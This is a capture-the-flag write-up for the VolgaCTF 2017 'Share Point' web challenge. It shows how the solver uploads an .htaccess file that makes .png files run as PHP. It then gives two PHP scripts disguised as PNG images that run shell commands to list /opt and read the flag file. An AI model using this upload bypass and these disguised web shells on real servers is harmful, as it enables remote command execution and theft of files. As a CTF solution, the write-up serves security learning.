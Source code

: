 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is optimal

### Solution
Regular Expression for authorization:__
`login [\w+]{4,}`__
`pass  [\w+]{8,+}`
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)
file ".htaccess":
```
AddHandler application/x-httpd-php .png
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)
file "ls.png":
```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
file "cat.png":
```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_6.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
